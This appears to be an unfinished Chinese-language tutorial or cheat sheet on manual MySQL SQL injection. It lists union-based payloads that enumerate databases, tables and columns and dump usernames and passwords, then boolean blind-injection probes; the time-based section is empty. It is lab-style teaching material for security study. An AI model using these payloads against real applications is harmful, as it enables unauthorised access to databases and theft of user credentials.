 ### 报错注入
1.**常用的注释payload**
```
	or 1=1--+
	'or 1=1--+
	"or 1=1--+
	)or 1=1--+
	')or 1=1--+
	") or 1=1--+
	"))or 1=1--+
	--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
```
2. **查询字段数目**
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目
```
 order by 10 --+ (二分法)
```

3. **联合查询**
UNION SELECT 联合查询，手工注入经典语句，作用是在后面通过UNION把我们的恶意注入语句接上去，带入数据库进行查询。因为字段数目是:3,那么正规的语句如下:
```
UNION SELECT 1,2,3 --+
```
4.**获取信息**
```
version()            #MySQL版本
user()               #数据库用户名
database()           #数据库名
@@datadir            #数据库路径
@@version_compile_os #操作系统版本
```
5.**获取表名**
```
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
6.**获取列名**
```
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
7.**获取字段**
```
UNION SELECT 1,2,group_concat(id,username,password) from users --+
```
8.**总结**
```
order by –+ 判断字段数目
union select –+ 联合查询收集信息
UNION SELECT 1,2,database() –+ 查询当前数据库
UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata –+查询所有数据库
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() –+ 查询表名
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' –+ 查询列名
UNION SELECT 1,2,group_concat(id,username,password) from users –+ 查询字段值
```
### 布尔注入
```
mid(str,1,3)字符串截取
ORD()转换成ascii码
Length()统计字节长度
version()查看数据库版本
database()查看数据库名
user()查看当前用户
```
1. 判断注入点
2. 获取数据库名称长度
```
and (select length (database())) = '8'
```


3. 获取数据库名称
and (select ord(substring(database(),1,1))) = 97

4.获取表总数
```
select count(table_name) from information_schema.tables where table_schema = database()
```
5. 获取表名长度
```
SELECT LENGTH (TABLE_NAME) from information_schema.tables where table_schema = DATABASE() LIMIT 0,1
```
6. 获取表名
```
SELECT ORD(SUBSTR((select(TABLE_NAME) from information_schema.tables where table_schema = DATABASE() limit 3,1),2,1))
```
7. 获取字段长度
7. 获取字段名称
8. 获取数据


### 延时注入

